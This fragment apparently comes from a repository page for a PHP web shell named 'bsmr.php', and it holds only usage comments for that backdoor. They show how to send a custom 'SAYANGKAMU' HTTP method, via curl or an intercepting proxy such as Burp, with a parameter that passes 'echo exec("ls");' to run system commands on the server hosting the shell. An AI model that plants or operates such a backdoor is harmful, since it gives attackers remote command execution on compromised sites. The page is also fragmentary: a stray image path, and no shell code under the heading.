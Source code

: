 # bsmr.php
// using

// curl -X SAYANGKAMU ssl://url.domain/path/filename.ext  -d 'SayangKamu=echo exec("ls");'
// FireFox ( using burp/ another change request get/post to SAYANGKAMU and add params SayangKamu=echo exec("ls"); 
